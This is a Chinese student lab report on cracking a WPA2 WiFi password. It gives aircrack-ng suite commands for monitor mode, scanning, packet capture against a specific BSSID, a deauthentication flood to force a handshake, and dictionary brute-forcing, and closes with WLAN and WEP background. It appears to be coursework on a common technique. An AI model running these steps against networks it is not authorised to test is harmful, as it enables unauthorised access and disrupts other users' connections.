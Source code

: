 # WIFI渗透--作业1： WIFI密码破解

## 实验准备

1.虚拟机 kali Linux

2.有监听功能的网卡 RT3070

3.aircrack-ng kali内置的无线攻击软件

## 实验过程

#### 1.虚拟机安装无线网卡

- 分配无线网卡给linux（主要网卡现在不能连接WiFi）

  ![分配网卡](img/分配网卡.png)

  ![查看网卡2](img/查看网卡2.png)

- 开启网卡监听模式，在监听模式下，无线网卡的名称已经变为了wlan0mon

  ![开启监听1](img/开启监听1.png)

  ![开启监听2](img/开启监听2.png)

- 重启一下网卡

  ```bash
   sudo ifconfig wlan0mon down
   sudo iwconfig wlan0mon mode monitor
   sudo ifconfig wlan0mon up 
  ```

  ![重启网卡](img/重启网卡.png)

#### 2.探测

- 扫描周围无线网络

  什么也没找到

- ```bash
  sudo airodump-ng wlan0mon
  ```

  ![扫描wifi](img/扫描wifi.png)

- 重新选择USB3.0(XHCI)控制器,重新探测，成功。

  ![更改usb设置](img/更改usb设置.png)

- 观察到**ESSID**是周围wifi的名字，最左侧的**BSSID**是这些wifi对应的mac地址。**ENC**是加密方式。**CH**是工作频道。

  可以看到基本都是WPA2的，很少有WPA和WEP,因为这两个的安全性都较WPA2差。

  ![探测wifi](img/探测wifi.png)

- 接下来要破解图中的FAST_1041BA。可以看到它的mac地址是1C:FA:68:10:41:BA，它的工作频道是1。

#### 3.利用airodump-ng进行抓包

- 使用airodump-ng这个工具进行抓包，可以看到有三个连接（客户端是电脑、手机以及ipad）。

  ```bash
  #--bssid 是路由器的mac地址
  #-w 是写入到文件longas中
  #-c 11 是频道11
  #--ivs 是只抓取可用于破解的IVS数据报文
  sudo airodump-ng –w longas -c 1 --bssid 1C:FA:68:10:41:BA --ivs wlan0mon
  ```

  ![抓包](img/抓包.png)

#### 4.利用crunch生成字典进行攻击

- 利用以下命令洪水攻击，设置攻击15次。

- 为了获得破解所需的WPA2握手验证的整个完整数据包，发送一种称之为“Deauth”的数据包来将已经连接至无线路由器的合法无线客户端强制断开，此时，客户端就会自动重新连接无线路由器，这样就有机会捕获到包含WPA2握手验证的完整数据包了。

  ```bash
  #新开一个shell
  #-0 采用deauth攻击模式，一直不断的攻击，类似于拒绝服务攻击，占满你的握手请求通道，其他的连接进不来，也可以让当前所有连接断开
  #-a 后跟路由器的mac地址
  #-c 后跟客户端的mac地址
    sudo aireplay-ng -0 15 –a 1C:FA:68:10:41:BA  -c BE:A9:57:76:88:26 wlan0mon
  
  ```

  ![洪水攻击](img/洪水攻击.png)

- 停掉洪水攻击，连接一下模拟别人连接，出现WPA handshake就表示成功。

  ![出现WPAhandshake](img/出现WPAhandshake.png)

#### 5.利用aircrack-ng进行爆破

- 抓到握手包那么就可以用密码字典进行爆破了(wifi-1.cap)

- ls查看抓包名称---longas-01.ivs

  ![查看包名字](img/查看包名字.png)

- 准备一个字典爆破---code.txt(为了节省时间字典中直接加入密码)

  ```bash
  sudo aircrack-ng -w code.txt longas-04.ivs
  ```

  ![爆破成功](img/爆破成功.png)



# 实验中遇到的问题

 1.扫描周围WiFi什么也没找到

**解决方法：更改usb设置为USB 3.0 (xHCI)控制器**

# 参考

[使用Aircrack-ng进行wifi渗透](https://www.jianshu.com/p/fd16236057df)

# 总结

**WLAN的设备**
WLAN主要由接入点（Access Point，AP）和客户端（Station，STA）组成
**接入点AP**

- 类似于有线局域网中的交换器
- 负责管理客户端，协调无线与有线网络之间的通信
  **客户端STA**
- 安装有无线网卡的计算机

**WEP（有线等效保密）认证过程：**

1. 客户端向接入点发送认证请求
2. 接入点发回一段明文
3. 客户端利用事先共享的密钥加密这段明文（对称），并再次发出认证请求
4. 接入点对数据包进行解密，比较明文，来决定是否接受请求